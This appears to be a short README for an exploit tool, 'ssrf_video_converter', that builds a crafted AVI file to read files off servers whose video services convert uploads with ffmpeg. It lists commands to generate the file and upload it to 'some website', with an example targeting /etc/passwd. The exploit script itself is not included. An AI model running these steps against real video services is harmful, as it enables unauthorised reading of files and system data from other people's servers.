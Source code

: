 # ssrf_video_converter
./fil.py file://<filename> file_read.avi
Upload file_read.avi to some website that processes videofiles
(on server side, done by the videoservice) ffmpeg -i file_read.avi output.mp4
Click "Play" in the videoservice.
If you are lucky, you'll the content of <filename> from the server.
./fil.py file://etc/passwd file_read.avi
